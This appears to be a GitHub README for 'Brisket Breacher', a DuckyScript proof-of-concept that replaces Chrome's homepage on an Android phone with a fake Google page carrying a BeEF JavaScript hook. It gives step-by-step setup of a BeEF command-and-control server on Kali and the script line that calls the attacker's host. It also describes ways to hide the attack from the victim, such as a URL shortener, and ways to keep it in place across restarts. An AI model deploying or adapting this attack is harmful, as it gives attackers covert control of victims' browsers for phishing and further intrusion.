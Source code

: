 <div align="center">
  
# Brisket Breacher

![bb](https://github.com/user-attachments/assets/019730d7-db7d-4a9a-a892-06df2b390adc)

</div>

**Title:** Brisket_Breacher

**Author:** OSINTI4L

**Target Os:** Android mobile device/Google Chrome (tested on Samsung S24 FE | One UI V7.0 | Android V15).

## What is Brisket Breacher?

Brisket Breacher is DuckyScript payload that targets the Android mobile device Google Chrome browser utilizing the Browser Exploitation Framework ([BeEF](https://www.kali.org/tools/beef-xss/)). The payload changes the homepage of the Google Chrome browser to an imitation `Google.com` landing page. When a victim device opens the Google Chrome browser to the homepage, the imitation Google.com page points to a BeEF command and control server via a Javascript BeEF hook, where the attacker has direct control over the browser to allow for further attacks. For the attack to work, the attacker must setup a BeEF C2 server, configure the homepage, and edit the URL to the C2 in the payload.txt (all explained below).

For the purposes of this PoC the BeEF C2 will be hosted locally over LAN, where the attacker machine and target device must be on the same LAN for the attack to be succesful. The same attack can be used outside of LAN if setup via methods such as port forwarding or hosting services.

**Persistence**

Due to the payload changing the homepage in the settings of the Google Chrome browser, this creates persistence. *Even* if the phone is restarted, when the browser homepage is loaded, it will *always* attempt to connect to the BeEF C2.

## Dependencies
## Setting up the BeEF command and control server using a [Kali Linux](https://www.kali.org) box
1. Once you have spun-up an instance of Kali (our attacker machine), you must first find the IP address of the machine. This can be found via `ifconfig`, store the IP address as it will be needed in multiple places momentarily.
  
2. Install BeEF:
    - `sudo apt install beef-xss -y`
     
3. Download the [homepage.html]() file (described next). This will be the homepage that our malicious URL will point to and deliver the BeEF C2 hook.
    - Open the homepage.html and edit the BeEF C2 hook (line 141 `<script src="http://X.X.X.X:3000/hook.js"></script>`) with the IP address gathered from `ifconfig` of the attacker machine and then save the updated file. E.g., `<script src="http://192.168.8.100:3000/hook.js"></script>`.
    - Become root: `sudo su`.
    - With the homepage.html file in your current working directory, move it to the following directory: `mv homepage.html /usr/share/beef-xss/extensions/demos/html`.

4. Start BeEF:
    - `sudo beef-xss`.
   -----
## The homepage
The homepage was designed to imitate a typical Google Search landing page. Multiple features were added in an attempt to help obfuscate the fact that it is a *malicious* homepage. The homepage also delivers the BeEF C2 hook.
  - Features:
    - BeEF C2 hook delivery.
    - Dark and Light mode variations that will render according to device settings.
    - A useable search bar and buttons that will forward the user input as a Google search request.

![googlesearch](https://github.com/user-attachments/assets/1a428553-52d5-417b-aabb-5fc053c33ea8)

## payload.txt
The [payload.txt]() file is the delivery system for configuration of the Google Chrome browser.

**The URL pointing to the BeEF C2 must be defined in line 7 of the payload.txt.** The URL to the BeEF C2 is the following: `http://x.x.x.x:3000/demos/homepage.html` (replacing the IP parameter with the IP address of the attacker machine). E.g., `http://192.168.8.100:3000/demos/homepage.html`. This will point to the homepage.html file that has been previously configured during the BeEF C2 setup stage.

An additional layer of obfuscation can be had by utilizing a URL shortening service (e.g., [Tinyurl](https://tinyurl.com/)). After placing the `http://x.x.x.x:3000/demos/homepage.html` URL into the shortener, you will then use the shortened URL as the constant defined in line 7.

The payload workflow is as follows:
  - Chrome browser is opened.
  - A new tab is opened to ensure the proper browser environment is present for the script to run without issues.
  - The browser is then navigated to the settings menu where the malicious BeEF C2 URL is placed.
  - All tabs are then closed.
  - All applications are then closed and the phone returns to the home screen. This is necessary for obfuscation purposes and to allow the browser to automatically navigate to the malicious homepage when next open.

![demo](https://github.com/user-attachments/assets/89d853d8-ec2c-4ca9-9cee-46ca4f33aab6)
